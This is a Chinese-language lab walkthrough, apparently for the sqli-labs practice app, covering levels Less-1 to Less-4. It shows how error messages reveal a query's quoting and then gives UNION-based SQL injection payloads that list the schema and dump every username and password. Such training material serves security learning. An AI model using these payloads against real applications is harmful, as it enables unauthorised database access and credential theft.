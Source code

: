在mysql中有一个系统数据库`information_schema`存储着所有的数据库的相关信息

查询数据库名

`select schema_name from information_schema.schemata`

查询数据表

`select table_name from information_schema.tables where table_schema='xxx'`

查询列

`select column_name from information_schema.columns where table_name='xxx'`

## Basic Challenges

### Less-1

传入`?id=1'`得到报错`''1'' LIMIT 0,1'`,说明原本的sql语句为`'$id' LIMIT 0,1`,但是此时`$id`多了一个`'`造成了`'`没有完全匹配,利用注释将后面多余的`'`去除

传入`?id=1'-- `此时的sql语句变为`'1'-- LIMIT 0,1`此时后面的`LIMIT 0,1`已经被注释掉了,同时`'`已经完全匹配所以sql语句正确执行

使用`order by`进行排序,`?id=1' order by 4-- `当传入4时报错`Unknown column '4' in 'order clause'`说明只有3列数据

利用`group_concat`列出所有数据库名

`?id=-1' UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata-- `

![image-20210418202649296](image-20210418202649296.png)

列出表名`?id=-1' UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'-- `

![image-20210418202947478](image-20210418202947478.png)

查询列`?id=-1' UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users'-- `

![image-20210418203352912](image-20210418203352912.png)

列出所有数据`?id=-1' UNION SELECT 1,(select group_concat(username)),(select group_concat(password)) from users-- `

![image-20210418204548460](image-20210418204548460.png)

### Less-2

传入`?id=1'`报错`'' LIMIT 0,1'`,传入`?id='1`报错`''1 LIMIT 0,1'`,推测sql语句为`$id LIMIT 0,1`(没有`'`)

爆破库名`?id=-1 UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata-- `

爆破表名`?id=-1 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'-- `

查询列`?id=-1 UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users'-- `

列出所有数据`?id=-1 UNION SELECT 1,(select group_concat(username)),(select group_concat(password)) from users-- `

### Less-3

传入`?id=1'`报错`''1'') LIMIT 0,1'`,推测sql语句为`('$id') LIMIT 0,1`

爆破库名`?id=-1') UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata-- `

爆破表名`?id=-1') UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'-- `

查询列`?id=-1') UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users'-- `

列出所有数据`?id=-1') UNION SELECT 1,(select group_concat(username)),(select group_concat(password)) from users-- `

### Less-4

传入`?id=1'`无回显,传入`?id-1"`报错`"1"") LIMIT 0,1`,推测sql语句为`("$id") LIMIT 0,1`

爆破库名`?id=-1") UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata-- `

爆破表名`?id=-1") UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'-- `

查询列`?id=-1") UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users'-- `

列出所有数据`?id=-1") UNION SELECT 1,(select group_concat(username)),(select group_concat(password)) from users-- `